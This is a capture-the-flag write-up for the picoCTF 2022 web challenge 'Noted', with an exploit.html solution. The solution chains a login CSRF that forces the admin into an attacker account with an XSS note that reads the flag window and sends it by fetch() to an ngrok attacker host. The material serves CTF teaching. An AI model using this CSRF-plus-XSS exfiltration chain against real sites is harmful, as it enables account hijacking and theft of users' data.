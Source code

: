 ```yaml
---
name: Noted (2022)
event: Pico CTF 2022
category: Web
description: Writeup for Noted (Web) - Pico CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Noted

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/OUizLCfp9Dw/0.jpg)](https://youtu.be/OUizLCfp9Dw?t=669 "Pico CTF 2022: Noted")

## Description

> Web Challenge I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?

## Solution

#### exploit.html

{% code overflow="wrap" %}
```html
<body>
    <p>flag plz</p>
    <form action="http://0.0.0.0:8080/login" method="POST" id="loginForm">
        <input type="text" name="username" value="admin" />
        <input type="password" name="password" value="admin" />
        <input type="submit" value="Submit" />
    </form>
    <script>
        // Open notes in new window (containing the flag)
        window.open("http://0.0.0.0:8080/notes", "flagWindow");
        // Force admin to login to our account
        loginForm.submit();
        // When the admin arrives to our account, our XSS note will steal the flag:
        /* <script>let flagWindow = window.open('', 'flagWindow'); let flag = flagWindow.document.documentElement.innerText; fetch('http://3297-81-103-153-174.ngrok.io?flag=' + flag);<//script> */
    </script>
</body>
```
{% endcode %}
